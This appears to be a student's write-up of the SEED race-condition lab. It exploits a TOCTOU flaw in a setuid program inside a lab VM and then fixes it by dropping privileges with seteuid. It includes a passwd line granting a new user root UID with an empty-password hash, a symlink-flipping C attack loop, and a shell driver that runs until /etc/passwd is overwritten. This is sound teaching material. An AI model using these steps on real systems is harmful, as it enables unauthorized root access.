

# Task 1

Fail to edit it even use root `vim`.

So first change its owner
```bash
sudo chown seed /etc/passwd
```
Then modify the file and return it to `root`
```bash
sudo chown root /etc/passwd
```
> I think the instruction can give more easy options: `sudo adduser test` then enter `U6aMy0wojraho` as its password or use GUI following [this document](https://help.ubuntu.com/stable/ubuntu-help/user-add.html.en). Anyway, **it is too dangerous to edit `/etc/passwd` directly**.

Yes, I can log in test user using just an enter press and get the root privilege.

```
[03/09/20]seed@VM:~/.../race$ su - test
Password: 
root@VM:~# whoami
root
```

write a file named `passwd_input` with the one-line content:

```
test:U6aMy0wojraho:0:0:test:/root:/bin/bash
```

# Task 2

Use `attack_process.c` to keep changing what `/tmp/XYZ` points to.

```c
#include <unistd.h>

int main()
{
    while (1)
    {
        unlink("/tmp/XYZ");
        symlink("/dev/null", "/tmp/XYZ");
        usleep(1000);

        unlink("/tmp/XYZ");
        symlink("/etc/passwd", "/tmp/XYZ");
        usleep(1000);
    }
    return 0;
}
```

Compilation:

```
gcc -o attack_process attack_process.c
```

Run `./attack_process` and start a new user shell execute `target_process.sh` (with `bash target_process.sh` command or use `chmod u+x target_process.h` before):

```sh
#!/bin/bash

CHECK_FILE="ls -l /etc/passwd"
old=$($CHECK_FILE)
new=$($CHECK_FILE)
while [ "$old" == "$new" ]
do
    ./vulp < passwd_input
    new=$($CHECK_FILE)
done
echo "STOP... The passwd file has been changed"
```

Finally, the attack works:



# Task 3

Edit `vulp.c` as:

```c
#include <stdio.h>
#include <unistd.h>
#include <string.h>

int main()
{
    char *fn = "/tmp/XYZ";
    char buffer[60];
    FILE *fp;
    uid_t real_uid = getuid();
    uid_t eff_uid = geteuid();

    /* get user input */
    scanf("%50s", buffer);

    seteuid(real_uid);

    fp = fopen(fn, "a+");
    if (fp) // Instead of checking by access(), directly check if open() returns proper pointer. **Note that it should not be compared with -1 as the textbook suggests.**
    {
        fwrite("\n", sizeof(char), 1, fp);
        fwrite(buffer, sizeof(char), strlen(buffer), fp);
        fclose(fp);
    }
    else
        printf("No permission \n");

    seteuid(eff_uid);
}
```

Note the modifications in Line 10-11, 16, 18-19 and 28.

- Before accessing the file, use `seteuid` to set the effective user ID to the real user ID, which disables its root privilege temporarily.
- After writing, use `seteuid` to set the effective user ID to its original value, which recovers its root privilege.
- Directly checking if `open()` return the file pointer instead of using `access()` to check the privilege.

Then the attack fails, the countermeasure stops the program from invoking the `open()` system call due to no root privilege.
